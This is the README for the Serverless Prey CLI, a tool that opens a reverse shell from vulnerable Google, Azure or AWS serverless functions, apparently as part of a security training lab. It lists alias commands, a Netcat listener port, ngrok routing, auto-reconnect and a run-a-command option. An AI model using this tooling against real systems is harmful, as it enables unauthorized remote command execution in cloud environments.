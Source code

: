 # Serverless Prey CLI

This is a command-line interface for establishing a TCP reverse shell connection to a Serverless Prey function. With it, you can accomplish steps 2 through 4 on the below diagram with a single command:

![Diagram](../docs/diagram.png "Diagram")

## Usage

We do not recommend invoking this script directly. Instead, you can use the specific aliases for each platform:

```
cheetah/script/cheetah --url-id GOOGLE_PROJECT_ID
cougar/script/cougar --url-id AZURE_FUNCTION_APP_ID --api-key AZURE_FUNCTION_APP_API_KEY
panther/script/panther --url-id AMAZON_API_GATEWAY_ID --api-key AMAZON_API_GATEWAY_API_KEY
```

### Options

* `--url`, `-u`: The base URL for the vulnerable endpoint. This is the function URL in the Serverless Framework deployment output for Panther and Cheetah, and `http://$COUGAR_FUNCTION_HOST/api/Cougar` for Cougar.
* `--api-key`, `-a`: The API key for the function. This is required for all platforms except for Google (Cheetah).
* `--port`, `-p` (Optional): The port that the Netcat server will listen on. Defaults to 4444.
* `--command`, `-c` (Optional): If provided, this command will be executed as soon as the connection to the Serverless container is established. The connection will be terminated one second later, and the results will be displayed. Example: `panther/script/panther --url-id AMAZON_API_GATEWAY_ID --api-key AMAZON_API_GATEWAY_API_KEY --command id # uid=496(sbx_user1051) gid=495 groups=495`
* `--loop`, `-l` (Optional): If set to true, whenever a successful connection times out, the CLI will attempt to automatically reconnect. This option is ignored if `--command` is set.
* `--no-ngrok`, `-n` (Optional): If set to true, do not run ngrok. Instead, route through the public IP address of the machine running this script.
* `--debug`, `-d` (Optional): Print debug messages.

